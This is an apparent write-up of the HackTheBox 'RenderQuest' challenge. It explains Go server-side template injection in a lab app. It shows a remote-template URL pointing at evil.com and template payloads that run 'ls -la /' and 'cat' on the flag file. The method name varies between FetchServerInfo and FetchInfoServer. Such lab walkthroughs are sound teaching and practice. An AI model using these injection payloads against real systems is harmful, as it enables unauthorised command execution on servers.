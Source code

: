 # RenderQuest - HackThebox Challenge [EASY]

`This walkthrough was carried out using the local environment in Docker, to use the real environment you need a public IP to connect to make the HTTP request.`

## Recon / Code review

- The application has 2 main files, namely, ***main.go*** and ***index.tpl***, with main.go containing the application's business logic, and index being the initial view of the page.

- Analyzing the context of the application, we can see that it is an application that returns server data to a template loaded internally or remotely in the system.

  ![Index](static/index.png)

  - The ***page*** parameter is used to load the sent templates, and there is also a parameter called **use_remote**, a boolean to validate whether the requests will be internal or made remotely.

    ​      `render?use_remote=true&page=http://evil.com/index.tpl`

- Reading the ***main.go*** file, we identified a function that makes calls to the operating system based on a parameter passed to it.

  ![Function](static/functionFetchInfoServer.png)

- The initial idea was to figure out how to call this ***FetchServerInfo*** function, passing parameters to it, and shortly after, this idea was realized, and exploitation was performed.



## Testing application

- Based on everything that was discovered, I started testing the application's functionalities. Let's try to upload a template remotely and extract some of the functions established by default in the application.

  - I then created a template using the ***ServerInfo.Hostname*** function available by default in the application.

    ![Template](static/mytemplate-initial.png)

    After creating it, I tried to load this template remotely to see if it would return the server's hostname.

    ![Hostname](static/exec-template-initial.png)

    Returned the server's hostname, so we were able to figure out how to interact with the application.



## Exploitation

- Searching the internet for common vulnerabilities in golang template systems, I found this article: https://www.onsecurity.io/blog/go-ssti-method-research/. This article provides exactly what we are looking for to exploit the template system and execute the previously discovered function.

  - ***Note:*** To exploit the desired method, we need to evaluate whether the method is an "exported method" because the template system package will call the method. In Golang, starting the method name with uppercase letters is not just aesthetic; it is to identify that the method is "exported." This nomenclature means that the method can be called by packages different from the one it was defined in.

  - Evaluating the case: We can see that the "***FetchServerInfo***" method is an exported method, so we can try to use it to achieve RCE in the application.
  - Changing our template, we can call the method and pass a command in the parameter.

  ![Exploiting](static/mytemplate-exploiting.png)

  Uploading our web server again and calling our template through the application.

  ![id](static/id.png)

  Pwned!!



## Flag

- The flag has a random ID, so we'll take two steps to identify it.
  -  First step: Let's change the content of our template to ***{{.FetchInfoServer "ls -la /"}}*** and then check the flag's ID.
  - Second step: Let's modify the payload to view the content of the flag: ***{{.FetchInfoServer "cat /flag$$$$$$.txt"}}***
  
   The $ simulates the flag's ID.

![Flag](static/flag.png)
